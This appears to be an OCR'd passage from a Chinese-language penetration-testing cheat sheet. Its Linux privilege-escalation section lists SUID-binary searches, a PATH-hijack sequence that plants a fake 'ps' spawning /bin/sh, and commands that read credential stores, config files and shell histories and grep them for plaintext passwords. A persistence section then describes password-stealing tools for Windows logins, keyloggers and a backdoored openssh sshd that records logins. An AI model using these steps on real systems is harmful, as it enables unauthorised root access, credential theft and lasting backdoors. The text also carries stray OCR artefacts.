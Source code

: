 

find / -user root -perm -4000 -print 2>/dev/null-
find / -perm -u=s -type f 2>/dev/null-
find / -user root -perm -4000 -exec ls -ldb {} \\;-

寻找可利用bin：[https://gtfobins.github.io/](https://gtfobins.github.io/)

#### 环境变量



cd /tmp-
echo “/bin/sh” > ps-
chmod 777 ps-
echo $PATH-
export PATH=/tmp:$PATH-
cd /home/raj/script-
./shell-
whoami-

[Linux环境变量提权 - 先知社区)](https://xz.aliyun.com/t/2767)

#### 系统服务的错误权限配置漏洞


cat /var/apache2/config.inc-
cat /var/lib/mysql/mysql/user.MYD-
cat /root/anaconda-ks.cfg-

#### 不安全的文件/文件夹权限配置


cat ~/.bash\_history-
cat ~/.nano\_history-
cat ~/.atftp\_history-
cat ~/.mysql\_history-
cat ~/.php\_history-

#### 找存储的明文用户名，密码

grep -i user \[filename\]-
grep -i pass \[filename\]-
grep -C 5 "password" \[filename\]-
find . -name "\*.php" -print0 | xargs -0 grep -i -n "var $password" # Joomla-

# 13.权限维持

## Windows

##### 1、密码记录工具

WinlogonHack WinlogonHack 是一款用来劫取远程3389登录密码的工具，在 WinlogonHack 之前有 一个 Gina 木马主要用来截取 Windows 2000下的密码，WinlogonHack 主要用于截 取 Windows XP 以及 Windows 2003 Server。 键盘记录器 安装键盘记录的目地不光是记录本机密码，是记录管理员一切的密码，比如说信箱，WEB 网页密码等等，这样也可以得到管理员的很多信息。 NTPass 获取管理员口令,一般用 gina 方式来,但有些机器上安装了 pcanywhere 等软件，会导致远程登录的时候出现故障，本软件可实现无障碍截取口令。 Linux 下 openssh 后门 重新编译运行的sshd服务，用于记录用户的登陆密码。
